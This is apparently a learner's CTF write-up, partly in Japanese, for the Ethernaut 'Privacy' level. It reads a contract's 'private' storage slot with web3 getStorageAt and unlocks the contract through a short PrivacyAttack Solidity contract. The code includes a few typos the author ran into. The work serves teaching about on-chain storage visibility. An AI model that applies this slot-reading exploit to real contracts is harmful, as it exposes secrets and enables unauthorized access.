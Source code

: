 12 Privacy 

The creator of this contract was careful enough to protect the sensitive areas of its storage.

Unlock this contract to beat the level.

Things that might help:

Understanding how storage works
Understanding how parameter parsing works
Understanding how casting works
Tips:

Remember that metamask is just a commodity. Use another tool if it is presenting problems. 
Advanced gameplay could involve using remix, or your own web3 provider.

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Privacy {

  bool public locked = true; //01 :[0]
  uint256 public ID = block.timestamp;//5f669cb3 :[1]
  uint8 private flattening = 10; //10 is 0a :[2] called flattenning
  uint8 private denomination = 255; //255 is ff :[2]
  uint16 private awkwardness = uint16(block.timestamps); //9cb3 :[2] data representation current timestamp coerced to 16bits 
  bytes32[3] private data; //we have three things init of Data Array [3],[4],[5]
//eight bits in one byte 




  constructor(bytes32[3] memory _data) public {
    data = _data;
  }
  
  function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2])); //this mean [5]! this secret key that we need to get in order to unlock this contract 
    locked = false;
  }

  /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
  */
}


>contract.address
'0x1FE73dC35aFc4c0FfCB515858Da6F13439D9647a'

>contract.abi
(4) [{…}, {…}, {…}, {…}]
0: {inputs: Array(1), stateMutability: 'nonpayable', type: 'constructor', constant: undefined, payable: undefined}
1: {inputs: Array(0), name: 'ID', outputs: Array(1), stateMutability: 'view', type: 'function', …}
2: {inputs: Array(0), name: 'locked', outputs: Array(1), stateMutability: 'view', type: 'function', …}
3: {inputs: Array(1), name: 'unlock', outputs: Array(0), stateMutability: 'nonpayable', type: 'function', …}
length: 4
[[Prototype]]: Array(0)

>await contract.locked()
true
//current contract is locked. locked is true. 


//gonna iterate for about six times

let storage = []

let callbackFNConstructor = (index) => (error, contractData) => {
  storage[index] = ContractData
}


//gonna iterate for about six times cuz should be a maximum of six or less variables stored in storage 

for(var i = 0; i < 6; i++) { //six loop iteration 
  web3.eth.getStorageAt(contract.address, i, callbackFNConstructor(i))
}

Promise {<pending>}[[Prototype]]: Promise[[PromiseState]]: "pending"[[PromiseResult]]: undefined


//errorでちゃった

VM316:4 Uncaught ReferenceError: ContractData is not defined
    at Object.callback (<anonymous>:4:20)
    at a (e4e9b69aea3571538dca60595571493ed3b7d30d.js:1:269639)
    at a (e4e9b69aea3571538dca60595571493ed3b7d30d.js:1:169902)
    at p.run (e4e9b69aea3571538dca60595571493ed3b7d30d.js:1:84233)
    at d (e4e9b69aea3571538dca60595571493ed3b7d30d.js:1:83727)

//eight bits in one byte 

10 is 0a 
255 is ff 

/PrivacyAttack.sol 
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Privacy.sol";

contract PrivacyAttack {
    Privacy target;

    constructor(address _targetAddress) public {
        target = Privacy(_targetAddress);
    }

    function unlock(bytes32 _slotValue) public {
        bytes16 key = bytes16(_slotValue);
        target.unlock(key);
    }

}

Privacy.sol のaddressを確認
>contract.address
'0x1FE73dC35aFc4c0FfCB515858Da6F13439D9647a'

//PrivacyAttack contract をdeploy using by '0x1FE73dC35aFc4c0FfCB515858Da6F13439D9647a'
[block:10918283 txIndex:2]from: 0xF6e...f30F5to: PrivacyAttack.(constructor)value: 0 weidata: 0x608...9647alogs: 0hash: 0x11f...c9d3b

//Praivacy.solからunlock用のkeyを抜き出す
>await web3.eth.getStorageAt(contract.address, 5, console.log)
'0x30d5f6d82f24a04bddbb8af089e145ace7bbc57351b4878ed559b598c6182467'

//unlock with key '0x30d5f6d82f24a04bddbb8af089e145ace7bbc57351b4878ed559b598c6182467'
[block:10918324 txIndex:3]from: 0xF6e...f30F5to: PrivacyAttack.unlock(bytes32) 0x5d4...3ee47value: 0 weidata: 0xec9...82467logs: 0hash: 0x039...cc972

>await contract.locked()
false

Nothing in the ethereum blockchain is private. 
The keyword private is merely an artificial construct of the Solidity language. 
Web3s getStorageAt(...) can be used to read anything from storage.
 It can be tricky to read what you want though, since several optimization rules and techniques are used to compact the storage as much as possible.

It cant get much more complicated than what was exposed in this level. 
For more, check out this excellent article by "Darius": How to read Ethereum contract storage






